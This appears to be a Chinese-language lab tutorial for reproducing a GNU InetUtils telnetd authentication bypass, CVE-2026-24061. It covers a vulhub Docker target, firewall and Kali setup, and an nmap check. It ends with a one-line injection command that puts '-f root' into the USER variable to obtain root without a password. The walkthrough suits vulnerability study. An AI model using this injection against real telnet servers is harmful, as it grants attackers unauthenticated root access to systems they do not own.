






# 复现Telnet身份验证绕过漏洞（CVE-2026-24061）

## 001：威胁范围

GNU InetUtils 1.9.3 至 2.7 版本的 telnetd
服务器存在远程认证绕过漏洞（CVE-2026-24061）。telnetd 服务器在将 USER
环境变量提交login(1)程序未进行过滤。攻击者可以提供类似-froot的 USER
值来触发登录程序的认证绕过功能（-f参数），在此之前即可获得 root
访问权限。

该漏洞参数属于注入漏洞（CWE-88），CVSS v3.1 评分为**9.8（严重）**。

## 002：工具准备

这里选择docker+kali的形式复现

### Docker Desktop安装与配置详细教程

<https://blog.csdn.net/Abcdzzr/article/details/150700420?fromshare=blogdetail&sharetype=blogdetail&sharerId=150700420&sharerefer=PC&sharesource=2604_95323357&sharefrom=from_link>

这里提一点，在配置Docker
Desktop最后一步的镜像源时，推荐本次复现采用镜像源

\"https://reg-mirror.qiniu.com\"（七牛云镜像源）亲测要比其他镜像源稳定。

### 靶机环境拉取

<https://github.com/vulhub/vulhub/blob/master/inetutils/CVE-2026-24061/docker-compose.yml>

打开所在文件夹

在此文件下打开终端，输入编译启动漏洞环境的命令：

> docker compose up -d

成功后Docker Desktop内的沙盒模块就会出现我们需要的telnet环境

可查看到windows的2323端口对应docker中的23端口，就是telnet服务，并且环境已经启动

### Windows防火墙配置

因为2323端口通常是关闭的，如果要远程连接我们Windows电脑的2323端口访问telnet服务，需要将2323端口开启

(1) 打开防火墙高级设置新建入站规则

(2) 选择端口

 

(3) 在协议和端口-\>特定端口，输入2323

 

(4) 应用此规则后，2323端口即开放

    至此我们所有的准备工作都已完成，靶机环境已经顺利建立！

## 003：kali启用

(1) 打开vmware，在kali的网络适配器中选择桥接模式，在我们需要访问主机的情况下，选用NAT模式会一直卡在防火墙上

(2) 使用nmap扫描此端口查看端口是否可连接

    nmap -p 2323 主机ip -Pn

    （主机ip即靶机windows的IP地址），显示包含以下部分，说明端口已开放可访问：

 

(3) Kali终端输入命令的注入语句：

    USER=\"-f root\" telnet -a 127.0.0.1 2323

    将127.0.0.1换成我们的靶机ip即可

 

    如图，已获取到root权限

